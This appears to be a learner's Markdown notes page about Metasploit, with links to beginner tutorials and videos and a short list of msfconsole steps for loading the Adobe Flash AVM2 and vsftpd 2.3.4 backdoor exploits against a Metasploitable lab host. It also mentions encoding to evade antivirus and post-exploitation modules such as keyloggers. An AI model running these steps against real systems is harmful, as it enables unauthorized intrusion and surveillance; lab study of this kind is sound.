 ### Metasploit Readings and Videos<p>
  
[Metasploit for Beginners](https://www.concise-courses.com/security/metasploit-for-beginners/).<br />
<p>
Youtube: Metasploit for Beginners<br />
  
[![thumbnail from the video](http://img.youtube.com/vi/cnkLv_RE3EI/0.jpg)](https://www.youtube.com/watch?v=cnkLv_RE3EI "MetaSploit tutorial for beginners")<p>
<p>
  
[Setting up a Metasploit postgresql database](https://www.offensive-security.com/metasploit-unleashed/using-databases/).<p>
<p>
Hak5's Metasploit Minute series<br />
  
[![thumbnail from the video](http://img.youtube.com/vi/NTdthBQYa1k/0.jpg)](https://www.youtube.com/watch?v=NTdthBQYa1k "5 Ways To Get Initial Access - Metasploit Minute")<p>

Hackersploit's Metasploit For Beginners - #1 - The Basics - Modules, Exploits & Payloads<br />
  
[![thumbnail from the video](http://img.youtube.com/vi/8lR27r8Y_ik/0.jpg)](hhttps://www.youtube.com/watch?v=8lR27r8Y_ik "Metasploit For Beginners - #1 - The Basics - Modules, Exploits & Payloads")<p>
<p>
  
  ### Demonstration and Things to Remember<br />
  <br />
  start postgresql before msfconsole<br />
  searching: type and platform<br />
  <p>
  commands:<br />
  
  * search type:exploit platform:windows flash
  * help
  * use exploit/windows/browser/adobe_flash_avm2 (turns red if loaded)
  * show options (customize the attack) and set SRVPORT 80
  
  ANOTHER and BETTER EXAMPLE:
  * use ZenMap to see software running and note network topography
  * db_nmap_status, db_nmap -T4 -A -v metasploitableIP
  * show (gives lots of info)
  * show info (good place to start)
  * show payloads (shows all of the payloads available)
  * show targets
  * search vsftpd
  * use exploit/unix/ftp/vsftpd_234_backdoor
  * info
  * set RHOST 10.______
  * finish with 'exploit'
  <p>
  Modules directory:  /usr/share/metasploit-framework<br />
  NOPS for buffer overflows<br />
  Encoding for sneaking through antivirus<br />
  post for further attacks are being pwned (keyloggers, VNC, etc.)<br />
  post/windows/gather <--btc-mining and other scripts<br />
    
  
  
  
  
